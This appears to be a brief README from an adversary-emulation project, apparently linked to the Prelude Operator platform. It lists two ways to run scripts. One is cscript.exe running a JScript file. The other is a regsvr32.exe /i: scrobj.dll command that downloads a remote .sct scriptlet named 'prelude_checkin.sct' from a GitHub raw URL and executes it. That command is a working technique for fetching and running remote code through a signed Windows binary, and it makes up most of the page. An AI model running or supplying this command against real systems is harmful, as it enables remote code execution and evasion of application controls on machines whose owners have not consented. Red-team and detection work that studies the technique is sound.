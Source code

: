 ## Examples in JScript.

`cscript.exe [filename.js]`

## COM Scriptlet

`regsvr32.exe /s /u /i:https://raw.githubusercontent.com/secdev-01/PreludeOperator_QuickCheck/main/jscript/prelude_checkin.sct scrobj.dll`

